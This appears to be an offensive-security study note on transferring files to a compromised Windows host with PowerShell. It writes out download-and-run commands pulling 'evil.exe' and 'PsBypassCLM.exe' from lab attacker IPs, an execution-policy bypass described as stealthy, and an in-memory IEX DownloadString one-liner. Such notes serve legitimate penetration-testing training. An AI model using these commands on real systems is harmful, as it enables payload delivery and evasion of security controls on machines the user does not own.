 ```yaml
---
description: >-
  Powershell File Download
title: Powershell Download              # Add title here
date: 2023-01-29 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Powershell Download]                     # Change Templates to Writeup
tags: [file transfer, powershell download]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### iwr (Invoke-Web-Request)
Transfer a file with the following command:
```bash
PS> iwr -uri http://10.10.14.4/PsBypassCLM.exe -OutFile PsBypassCLM.exe
```
[[Sizzle#^]]
Execute this commands to create wget.ps1 on victim machine:
```powershell
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "http://10.11.0.4/evil.exe" >> wget.ps1
echo $file = "new-exploit.exe" >> wget.ps1
echo $webclient.DownloadFile($url,$file) >> wget.ps1
```
To ensure both correct and stealthy execution, we specify a number of options in the execution of the script, it must be executed on cmd as shown below:
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
One-liner of the above command:
```bash
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://localhost/evil.exe', 'new-exploit.exe')
```
If we want to download and execute a PowerShell script without saving it to disk, we can once again use the System.Net.Webclient class. This is done by combining the DownloadString method with the Invoke-Expression cmdlet (IEX).3
To demonstrate this, we will create a simple PowerShell script on our Kali machine:
```bash
kali@kali:/var/www/html$ sudo cat helloworld.ps1 
Write-Output "Hello World"
```

Next, we will run the script with the following command on our compromised Windows machine (Listing 21):
```powershell
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```

### New-Object
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```